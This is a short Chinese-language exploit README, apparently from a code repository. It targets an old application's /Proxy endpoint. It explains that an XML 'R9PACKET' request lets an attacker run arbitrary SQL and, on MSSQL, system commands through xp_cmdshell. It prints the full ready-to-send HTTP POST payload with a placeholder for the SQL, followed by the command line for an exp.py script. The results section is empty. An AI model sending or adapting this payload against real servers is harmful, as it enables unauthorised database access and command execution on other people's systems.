

# 前言

该软件比较老，利用xxe执行数据库命令，如果数据库是mssql则可以利用xp_cmdshell执行命令。

# Payload

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 442
Connection: Keep-Alive
Cache-Control: no-cache

 
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">这里插入sql语句</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

# 脚本使用方式

```shell
python3 exp.py  http://127.0.0.1:8000/
```

需要用pip安装html.parser包

# 结果

